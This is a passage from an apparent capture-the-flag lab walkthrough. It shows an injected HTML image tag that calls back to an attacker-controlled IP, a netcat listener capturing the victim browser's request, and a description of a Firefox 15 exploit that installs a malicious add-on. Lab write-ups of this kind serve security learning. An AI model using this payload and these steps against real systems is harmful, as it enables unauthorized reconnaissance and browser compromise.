 ```bash
<img src="http://192.168.110.150:4343"/>
```

![](/assets/images/breach2/screenshot-6.png)

Then we need to start a netcat listener and wait for the target visit the page (in this case a script) and execute our malicious instruction.

```bash
root@kali:~$ nc -vlnp 4343
listening on [any] 4343 ...
connect to [192.168.110.150] from (UNKNOWN) [192.168.110.151] 33045
GET / HTTP/1.1
Host: 192.168.110.150:4343
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:15.0) Gecko/20100101 Firefox/15.0
Accept: image/png,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.110.151/blog/members.html
```

We have captured the request header, in the User-Agent field we see to perform the request version 15 of firefox was used, googling I found that this is vulnerable to code execution due to improper exception handling on objects that dont have the exposedProps property set, it is possible to overwrite functions that get called from a privileged context and silently invoke the AddonManager to install a malicious plugin.
